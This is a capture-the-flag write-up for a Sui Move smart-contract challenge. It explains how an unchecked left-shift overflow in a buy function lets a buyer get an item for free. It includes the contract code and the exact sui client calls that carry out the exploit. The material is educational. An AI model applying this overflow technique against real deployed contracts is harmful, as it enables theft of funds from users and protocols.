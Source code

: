 # Shopping

Practice challenge on [Cyclens Platform](https://platform.cyclens.tech/challenge/39).

Description: 小明看着最近爆火的 Labubu 也想要入手一个，但是无奈钱包的钱不够，该怎么办呢？

After reading the source code, we know to get flag we need to purchase a Labubu with our card:

```rust
public entry fun get_flag(labubu: &Labubu, card: &Card, ctx: &mut TxContext) {
    assert!(labubu.get_labubu_owner() == card.owner, EOWNER);

    event::emit(FlagEvent {
        owner: ctx.sender(),
        flag: true
    });
}
```

Claiming the card gives us only 1 balance but a Labubu costs 5. We need to exploit this function:

```rust
public entry fun buy(amt: u64, card: &mut Card, market: &mut Market, i: u64, ctx: &mut TxContext) {
    assert!(!(amt < market.get_labubu_price(i)), EPAYPRICE);

    let split_amt = amt << 30;
    
    assert!(((card.balance.value() << 30) - split_amt) >= 0, ENOTENOUGHBALANCE);

    market.pay(card.balance.split(split_amt >> 30));
    
    market::transfer_labubu_owner(market, i, ctx);
    transfer::public_transfer(market::get_labubu(market, i), ctx.sender());
}
```

Immediately we think of some overflow vulnerability as we have some right shifts to balance and the `amt` is a `u64`. After looking at this [SlowMist SUI Move Contract Audit Method](https://github.com/slowmist/Sui-MOVE-Smart-Contract-Auditing-Primer?tab=readme-ov-file#overflow-audit), we saw this:

> Move performs overflow checks during mathematical operations, and transactions with overflow will fail. However, bitwise operations do not undergo such checks. Additionally, custom overflow detection functions may have flaws that lead to value truncation issues.

In fact this challenge seems to be inspired from the recent [Cetus Hack](https://chainvestigate.com/en/cetus-protocol-hack-analysis):

> Among the functions defined in the module is `checked_shlw`, a utility function responsible for performing a left bitwise shift on a 256-bit unsigned integer while simultaneously checking for potential overflow. This is a crucial safety measure because shifting a large integer too far left can exceed the allowable 256-bit range, causing bits to be truncated — a dangerous arithmetic error.

Therefore, we craft `amt = 2^34` where `split_amt = amt << 30` overflows to 0. Then we can claim a Labubu for free without paying anything.

The entire exploit can be done with Client CLI:

```bash
export PACKAGE=0xfce3ac708c34b1e996e476877aaa185ee218f84ea457c87e4f742fc7095c4147
export MARKET=0x29464c14794ae185dda9d2f0fdc06c4da8b59f177d4e87ee9a7a50c2a68010ac
export MINTCAP=0x37aa4b7d08f78f252bac84f9615ad28fb55a95401cfc2ade028ad66697054e35
# Open card
sui client call --package $PACKAGE --module challenge --function open_card --gas-budget 100000000
export CARD=0xb7947ee385731de0ea253c09a7965e14620a234a189b864ad68264199c2e4c00
# Claim balance and buy Labubu with amt=2^34
sui client call --package $PACKAGE --module challenge --function claim --args $CARD $MINTCAP --gas-budget 100000000
sui client call --package $PACKAGE --module challenge --function buy --args 17179869184 $CARD $MARKET 0 --gas-budget 100000000
export LABUBU=0x44d0bae89c32fed0fb90f383fb46231cf2ff7b8fda49fe3bfd8c56a16645ee1d
sui client call --package $PACKAGE --module challenge --function get_flag --args $LABUBU $CARD --gas-budget 100000000
```
